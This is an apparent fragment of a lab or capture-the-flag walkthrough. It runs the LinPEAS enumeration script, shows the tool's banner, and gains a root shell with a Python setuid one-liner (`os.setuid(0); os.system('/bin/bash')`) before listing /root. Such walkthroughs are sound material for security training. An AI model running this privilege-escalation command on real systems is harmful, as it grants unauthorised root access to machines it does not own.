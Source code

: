 ```bash
./linpeas.sh
```


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |                                                                                                                           
    |---------------------------------------------------------------------------------|                                                                                                                           
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz          |                                                                                                                          
    |         Follow on Twitter         :     @hacktricks_live                        |                                                                                                                           
    |         Respect on HTB            :     SirBroccoli                             |                                                                                                                           
    |---------------------------------------------------------------------------------|                                                                                                                           
    |                                 Thank you!                                      |                                                                                                                           
    \---------------------------------------------------------------------------------/                                                                                                                           
          LinPEAS-ng by carlospolop                                                                                                                                                                               
                                                                                                                                                                                                                  
                                ╔════════════════╗
════════════════════════════════╣ API Keys Regex ╠════════════════════════════════                                                                                                         
                                ╚════════════════╝                                                                                                                                         

**Input**
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
**Input**
```bash
cd /root
```
**Input**
```bash
ls
```

